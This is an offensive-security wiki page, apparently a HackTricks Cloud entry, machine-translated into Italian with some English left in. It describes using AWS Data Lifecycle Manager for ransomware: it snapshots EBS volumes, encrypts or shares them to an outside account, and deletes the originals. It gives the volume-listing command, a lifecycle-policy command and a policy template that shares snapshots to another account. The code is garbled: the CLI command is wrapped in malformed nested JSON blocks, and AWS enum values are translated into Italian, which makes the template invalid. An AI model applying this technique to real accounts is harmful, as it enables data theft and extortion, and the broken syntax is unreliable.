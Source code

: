 # AWS - Gestore del Ciclo di Vita dei Dati

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Gestore del Ciclo di Vita dei Dati (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Un attacco ransomware può essere eseguito crittografando il maggior numero possibile di volumi EBS e quindi cancellando le istanze EC2 attuali, i volumi EBS e gli snapshot. Per automatizzare questa attività maliziosa, si può utilizzare Amazon DLM, crittografando gli snapshot con una chiave KMS da un altro account AWS e trasferendo gli snapshot crittografati a un account diverso. In alternativa, potrebbero trasferire gli snapshot senza crittografia a un account gestito da loro e poi crittografarli lì. Anche se non è immediato crittografare direttamente i volumi EBS o gli snapshot esistenti, è possibile farlo creando un nuovo volume o snapshot.

In primo luogo, si utilizzerà un comando per raccogliere informazioni sui volumi, come l'ID dell'istanza, l'ID del volume, lo stato della crittografia, lo stato dell'attaccamento e il tipo di volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy": "--description \"La mia prima policy\" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "GESTIONE_SNAPSHOT_EBS",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ChiaveEsempio",
"Value": "ValoreEsempio"
}
],
"Schedules": [
{
"Name": "SnapshotGiornalieri",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "CreatoreSnapshot",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CentroCosti",
"Value": "Finanza"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "ORE",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "ORE"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "GIORNI"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "GIORNI"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
